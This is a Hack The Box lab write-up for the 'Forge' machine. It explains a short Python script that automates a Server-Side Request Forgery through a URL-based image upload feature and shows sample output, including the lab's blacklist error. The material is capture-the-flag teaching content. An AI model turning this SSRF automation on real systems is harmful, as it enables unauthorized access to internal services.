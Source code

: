 # Hack The Box. Machines. Forge

Machine write-up: https://7rocky.github.io/en/htb/forge

### `ssrf.py`

This Python script is used to automate the exploitation of a Server-Side Request Forgery (SSRF) vulnerability.

The code is really simple, this is the `main` function:

```python
def main():
    url = sys.argv[1]

    r = requests.post('http://forge.htb/upload', {'url': url, 'remote': 1})

    if 'http://forge.htb' not in r.text:
        print(re.findall(r'<strong>(.*?)</strong>', r.text)[0])
        exit()

    upload_url = re.findall(r'<a href="(http://forge\.htb/.*?)">', r.text)[0]

    r = requests.get(upload_url)
    print(r.text)
```

Basically, `http://forge.htb` provides the feature to upload images using an URL. If the URL is valid, then it will return another URL with a random path to access the uploaded image.

However, it does not check that the uploaded file is actually an image, so we can try to exploit an SSRF and point the URL to internal services.

The Python script just automates the process of uploading a file via URL and perform a GET request to the generated URL, all in one command. For example:

```console
$ cat index.html
<!doctype html>
<html lang="en">
  <head>
    <title>Test</title>
    <meta charset="uft-8">
  </head>
  <body>
    <h1>Test</h1>
  </body>
</html>

$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

```console
$ python3 ssrf.py http://10.10.17.44
<!doctype html>
<html lang="en">
  <head>
    <title>Test</title>
    <meta charset="uft-8">
  </head>
  <body>
    <h1>Test</h1>
  </body>
</html>
```

```console
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.10.11.111 - - [] "GET / HTTP/1.1" 200 -
```

The machine has a blacklist for URL that are not allowed. In those cases, the page will show an error. This is also handled by the script:

```console
$ python3 ssrf.py http://127.0.0.1
URL contains a blacklisted address!
```
